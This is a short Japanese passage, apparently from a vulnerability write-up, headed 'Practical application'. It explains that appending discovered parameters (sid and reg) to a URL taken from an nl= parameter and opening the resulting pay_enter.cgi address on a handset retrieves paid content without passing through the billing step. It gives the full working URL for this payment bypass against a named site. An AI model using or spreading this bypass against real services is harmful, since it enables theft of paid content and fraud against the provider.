

# 4. 実際の応用
以上の内容を踏まえ、
nl=パラメーター内にあるURLに、判明したsid=B6V8&reg=1の追加パラメーターを付加し、
http://j-sl.success.ne.jp/pay_enter.cgi?aplno=80&regino=1&sid=B6V8&reg=1
に端末でアクセスすることにより、課金処理を経ずに有料コンテンツを取得することが出来る。